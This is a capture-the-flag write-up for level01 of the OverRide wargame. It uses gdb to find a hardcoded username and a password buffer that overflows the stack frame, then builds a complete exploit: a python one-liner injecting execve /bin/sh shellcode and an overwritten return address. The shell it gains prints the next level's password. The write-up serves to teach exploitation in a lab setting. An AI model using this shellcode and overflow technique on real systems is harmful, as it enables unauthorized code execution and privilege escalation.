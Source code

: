 [README](../README.md)
# level01

```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username:
verifying username....

nope, incorrect username...

```

## gdb analysis
- in main there are 2 fgets call, the first for the username and the second for password. the first buffer of first fgets is passed to the following function to verify if username is correct:
`0x0804852d <+93>:	call   0x8048464 <verify_user_name>`
- (gdb) disas 0x8048464: the function does compare the buffer with 7 characters (0x7) of a string stored at address 0x80486a8:
```
   0x0804847d <+25>:	mov    $0x80486a8,%eax
   0x08048482 <+30>:	mov    $0x7,%ecx

```
- 
```
(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```
- we have username. 
- second fgets buffer for the user input password expose a vulnerability because it is bigger ( `0x08048565 <+149>:	movl   $0x64,0x4(%esp)`) than the stack frame (`  0x080484d8 <+8>:	sub    $0x60,%esp
`) => 0x64 bytes vs 0x60 bytes = buffer is 100 bytes and stack frame is 96
- the logic of checking the return of verify_user_pass called  at <+176> is not correct , because the return stored in eax is compared to 0X0 (0=success) and even if the function return 0 we jump (je) to <+199> where the "nope..." at address 0x804871e is puts.

## payload
- we find the offset of second fgets buffer using a pattern generator:
```
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
=> offset is 80 bytes
- we find the address of first fgets buffer:
```
0x08048521 <+81>:	movl   $0x804a040,(%esp)
0x08048528 <+88>:	call   0x8048370 <fgets@plt>
```
=> 0x804a040
- we want to overflow the buffer of second gets with shellcode, to do so we need to craft the payload with: corect username to pass to second fgets buffer + shell code + padding of 80 to overflow the buffer and execute the shellcode + address of buffer of first fgets + 7 characters (the n. of characters of username dat_wil) to overwrite the return address (writing in eip) and redirect the execution flow back to a valid part of the program after the shellcode has executed:
```
level01@OverRide:~$ python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'A'*80 + '\x47\xa0\x04\x08'" > /tmp/exploit
level01@OverRide:~$ cat /tmp/exploit - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

